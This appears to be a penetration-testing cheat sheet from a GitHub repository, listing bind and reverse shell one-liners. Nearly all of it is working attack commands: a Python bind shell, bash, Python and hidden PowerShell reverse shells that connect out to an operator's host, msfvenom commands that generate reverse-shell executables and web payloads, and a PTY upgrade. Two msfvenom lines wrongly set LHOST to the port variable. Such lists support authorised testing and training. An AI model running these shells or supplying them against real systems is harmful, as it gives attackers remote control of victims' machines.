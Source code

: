 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit_shells.mdd">Top of Page</a> |
  <a href="/CheatSheets/2_exploit_shells.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Shells
## Table of Contents
* [Bind Shells](#bind-shells)
  * [Python](#python-bind-shell)
* [Reverse Shells](#reverse-shells)
  * [BASH](#bash-reverse-shells) 
  * [Msfvenom](#msfvenom-reverse-shells)
  * [PowerShell](#powershell-reverse-shells)
  * [Python](#python-reverse-shells) 
* [Upgrade to a PTY Shell](#upgrade-to-a-pty-shell)
  * [Python PTY Shell](#python-pty-shell) 

## Bind Shells
#### Python Bind Shell
```python
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

## Reverse Shells
#### Bash Reverse Shells
```bash
bash -i >& /dev/tcp/10.0.0.1/443 0>&1
```

#### Msfvenom Reverse Shells
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o rshell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f asp -o rshell.asp
msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o rshell.php
msfvenom -p windows/shell_reverse_tcp LHOST=$LPORT LPORT=$LPORT -f hta-psh -o rshell.hta
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f powershell
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f msi -o rshell.msi
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LPORT LPORT=$LPORT -f war > rshell.war
```

#### PowerShell Reverse Shells
```bash
'powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.11.12.13",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

#### Python Reverse Shells
```python
export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

## Upgrade to a PTY Shell
#### Python PTY Shell
```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit_shells.mdd">Top of Page</a> |
  <a href="/CheatSheets/2_exploit_shells.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
